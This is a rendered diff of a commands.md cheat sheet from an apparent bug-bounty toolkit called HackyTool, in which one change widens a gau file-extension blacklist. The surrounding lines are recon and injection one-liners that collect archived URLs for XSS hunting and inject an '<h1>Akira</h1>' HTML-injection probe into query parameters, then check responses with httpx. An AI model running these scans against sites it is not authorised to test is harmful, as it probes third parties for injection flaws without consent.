

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/commands.md
+++ b/commands.md
@@ -14,7 +14,7 @@
     cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200
 
 ## gau+uro+httpx(My Xss)
-     cat domains.txt | gau --blacklist jpg,jpeg,png,gif,pdf,svg,json,yaml,rb,xml,css,js,webp,woff,woff2,eot,ttf,otf,mp4,mp3,txt --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt
+     cat domains.txt | gau --blacklist 3dm,3ds,3gp,7z,aac,ai,aif,apk,avi,bat,bin,BMP,bz2,cfg,class,CR2,csh,css,csv,dat,deb,dmg,doc,docx,dwg,eot,EPS,exe,EXIF,flac,flv,gba,gdb,gif,gz,HEIC,hqx,ICO,ico,ics,iso,jar,jpeg,jpg,js,json,lua,m4a,m4v,mov,mp3,mp4,msi,NEF,nes,nrg,odp,ods,odt,ogg,ogv,otf,PBM,pdf,PGM,pkg,plist,png,PPM,ppt,pptx,ps,PSD,RAW,rb,rpm,rtf,srt,SVG,svg,swf,sys,tar,TGA,TIFF,ttf,txt,vob,wav,WEBP,webp,woff,woff2,xls,xlsx,xml,xpi,yaml,z64,z7,zip --providers wayback,commoncrawl,otx,urlscan --mt text/html,application/xhtml+xml,application/xml,application/xml+html,application/vnd.wap.xhtml+xml,application/xhtml+xml,text/xml --subs --fp --o domain4xss.txt
 
      uro < domains.txt | grep -E 'https?://[^?]+\?[a-zA-Z0-9_]+=[^&]+(&[a-zA-Z0-9_]+=[^&]+)*' | qsreplace %22%3E%3Ch1%3EAkira%3C%2Fh1%3E > domain4httpx.txt
 
```
